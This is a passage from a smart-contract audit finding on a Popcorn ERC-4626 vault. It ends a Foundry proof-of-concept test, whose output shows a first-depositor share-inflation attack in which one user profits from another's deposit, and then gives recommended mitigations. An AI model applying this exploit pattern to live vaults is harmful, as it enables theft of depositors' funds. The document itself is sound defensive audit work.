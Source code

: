 ```solidity
    vm.prank(alice);
    vault.redeem(aliceShareAmount, alice, alice);

    console.log("\n=== FINAL STATES ===");
    console.log("Bob assets: %s", asset.balanceOf(bob));
    console.log("Alice assets: %s", asset.balanceOf(alice));
  }
```

Output:

    === INITIAL STATES ===
      Bob assets: 2000000000000000000000000
      Alice assets: 2000000000000000000000000
      
    === BOB DEPOSITS ===
      Bob Shares Amount: 1
      Vault Assets : 1

    === AFTER BOB's TRANSFER ===
      Bob Shares Amount: 1
      Vault Assets : 1000000000000000000000001
      
    === AFTER ALICE TX ===
      Alice Shares Amount: 1
      Vault Assets : 3000000000000000000000001
      Convertable assets that Bob receives: 1500000000000000000000000
      Convertable assets that Alice receives: 1500000000000000000000000
      
    === BOB WITHDRAWS ===
      
    === ALICE WITHDRAWS ===
      
    === FINAL STATES ===
      Bob assets: 2499999999999999999999999
      Alice assets: 1500000000000000000000001

This same issue is commonly found in vaults. [Spearbit](https://spearbit.com/) also [reported this](https://github.com/spearbit/portfolio/blob/master/pdfs/MapleV2.pdf) on their Maple V2 audit as the primary high risk issue.

### Recommended Mitigation Steps

*   Require a minimum amount of initial shares (when its supply is zero) to be minted taking into account that:
    *   The deposit mints an effective (INITIAL_MINT - INITIAL_BURN) amount of shares to the first depositor
    *   Burns the INITIAL_BURN amount to a dead address.

Both initial amounts should be set carefully as they partially harm the first depositor. Those amounts should be high enough to reduce the profitability of this attack to the first depositor but not excessively high which could reduce the incentive of being the first depositor.

**[RedVeil (Popcorn) confirmed](https://github.com/code-423n4/2023-01-popcorn-findings/issues/243)** 
